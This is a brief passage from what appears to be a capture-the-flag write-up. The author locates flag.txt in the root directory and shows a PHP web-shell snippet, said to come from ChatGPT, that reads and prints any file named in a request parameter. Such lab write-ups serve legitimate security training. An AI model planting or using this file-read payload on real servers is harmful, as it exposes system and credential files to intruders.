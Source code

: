 - Now we can check where flag.txt is present.

![image.png](Files/image%2018.png)

- flag.txt is present in / directory. Now again I used chatgpt to get the code for displaying the content of flag.txt

```php
<?php
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    echo file_get_contents($_REQUEST['cmd']);
    echo "</pre>";
}
?>
```
